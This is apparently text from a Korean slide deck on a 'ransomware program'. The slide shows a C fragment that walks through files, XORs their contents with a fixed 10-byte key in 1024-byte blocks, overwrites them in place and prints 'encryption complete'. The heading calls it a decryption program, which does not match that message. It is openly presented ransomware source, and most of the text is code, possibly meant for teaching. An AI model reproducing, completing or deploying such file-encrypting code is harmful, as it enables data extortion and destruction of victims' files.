

02 랜섬웨어 프로그램
-#2 복호화 프로그램
#2-1 확장자명 바꾸기
 if (fp == NULL){ // filenewname이 NULL이면 다시 파일을 찾는 함수를 실행
      if (strstr(filename, ".") == 0)
         findfile(filefullname);
      return -1;
   }

while (!feof(fp)){ // fp가 끝이 아닐때까지
   fwpos = ftell(fp);  // 현재 파일에 현재 위치를 저장
   read_size = fread(data, 1, 1024, fp); // data를 읽고, 1 사이즈를 1024만큼 fp에 기록한 것을 저장 -> 파일의 갯수를 저장

   if (read_size == 0)break;
   for (i = 0; i<read_size; i++){
      data[i] ^= the_key[i % 10];
   }

   frpos = ftell(fp);

   fseek(fp, fwpos, SEEK_SET);  // fseek는 파일의 읽기,쓰기 위치이동 함수 fp를 파일시작 부터 fwpos만큼 건너뛰는 함수
   fwrite(data, 1, read_size, fp); // data에 1크기를 read_size만큼 fp에 기록 -> 파일의 갯수를 기록
   fseek(fp, frpos, SEEK_SET);
   }
   fclose(fp);
   printf("%s 암호화 완료.\n", filefullname);
   return 1;
}